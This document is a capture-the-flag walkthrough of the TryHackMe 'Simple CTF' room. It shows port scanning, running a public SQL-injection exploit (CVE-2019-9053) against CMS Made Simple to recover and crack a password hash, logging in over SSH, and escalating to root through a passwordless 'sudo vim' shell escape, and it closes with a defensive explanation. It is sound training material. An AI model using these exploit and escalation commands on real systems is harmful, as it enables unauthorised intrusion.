




# Simple CTF

**Room:** [Simple CTF](https://tryhackme.com/room/easyctf) · **Difficulty:** Easy · **OS:** Linux

A short beginner box: identify a vulnerable CMS Made Simple install, use a public SQL-injection exploit to recover a user's salted hash, crack it, log in over SSH, and escalate to root through a `sudo`-allowed editor.

---

## 1. Reconnaissance

### Port scan

```bash
nmap -p- --min-rate 1000 -T4 -sV -Pn -oA nmap_full_scan 10.48.141.222
```

```text
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
```

Note SSH is on the **non-standard port 2222** — worth remembering for the login step later.

### Content discovery

```bash
ffuf -u "http://10.48.141.222/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -r
```

```text
robots.txt              [Status: 200]
simple                  [Status: 200]
```

---

## 2. Identifying the CMS

Visiting `/simple` reveals a **CMS Made Simple** installation:



The footer / version marker identifies it as **CMS Made Simple 2.2.8**:



`searchsploit` maps that version to a known unauthenticated SQL injection:

```bash
searchsploit 'cmsms 2.2.8'
```

```text
CMS Made Simple < 2.2.10 - SQL Injection | php/webapps/46635.py
```

This is **CVE-2019-9053**, a blind SQL injection in the News module that leaks user credentials.

---

## 3. Exploiting the SQL injection

Running the public exploit extracts the admin salt, username, email and password hash, then cracks it with a wordlist:

```bash
python3 46635.py -u http://10.48.141.222/simple --crack -w /usr/share/wordlists/rockyou.txt
```

```text
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```



The salted MD5 cracks to the cleartext password for `mitch`:



---

## 4. Initial access (SSH) and user flag

The recovered `mitch` credentials work against SSH on port **2222**:

```bash
ssh mitch@10.49.152.214 -p 2222
```

```text
$ cat user.txt
G00d j0b, keep up!
```

---

## 5. Privilege escalation

Checking `mitch`'s `sudo` rights shows a passwordless editor:

```bash
sudo -l
```

```text
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

`vim` is a classic [GTFOBin](https://gtfobins.github.io/gtfobins/vim/): it can shell out, and because it runs as root the shell is root:

```bash
sudo vim -c ':!/bin/sh'
```

```text
# cat /root/root.txt
W3ll d0n3. You made it!
```

---

## Why the attack works

- **Unpatched CMS.** CMS Made Simple 2.2.8 predates the CVE-2019-9053 fix, so the News module's parameter is injectable without authentication.
- **Weak, crackable hash.** The salted MD5 is in rockyou's reach, turning a leaked hash into a working password.
- **`sudo vim`.** Granting an interactive, shell-capable program via `sudo` is equivalent to granting a root shell. Editors like `vim`, `less` and `nano` should never appear in a sudoers rule.
